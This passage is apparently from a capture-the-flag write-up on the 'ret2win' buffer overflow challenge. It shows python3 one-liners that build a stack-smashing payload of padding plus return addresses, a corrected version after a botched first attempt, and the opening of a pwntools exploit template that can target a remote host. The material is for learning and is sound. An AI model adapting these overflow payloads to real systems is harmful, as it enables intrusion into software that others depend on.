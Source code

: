 **Using python3 once more (and armed with better knowledge), we can jump to `ret2win()` once more and see that in the result of our execution and obtain our flag:**

```
python3 -c "import sys; sys.stdout.buffer.write(b'A'*40+b'\x3e\x05\x04\x00\x00\x00\x00\x00 + \x3e\x05\x00\x04\x00\x00\x00\x00')" > payload
```

For some reason, I cannot get my manual exploit to work. I believe it has something to do with python's `sys.stdout.buffer.write()` not liking multiple pieces of shellcode??

<mark style="color:yellow;">Yes, I needed to append</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`b'`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">before every new iteration of shellcode</mark>.

Here is the fix:

```
python3 -c "import sys; sys.stdout.buffer.write(b'A'*40 + b'\x3e\x05\x40\x00\x00\x00\x00\x00' + b'\x56\x07\x40\x00\x00\x00\x00\x00')" > payload
```

Send payload to target:

```
./ret2win < payload
```

<figure><img src="../../.gitbook/assets/image (6) (1).png" alt=""><figcaption><p>Result</p></figcaption></figure>

### Automated Exploitation with pwntools

exploit.py:

```python
from pwn import *

# SETUP

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
            return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
         return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Target binary
exe = './ret2win'

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
```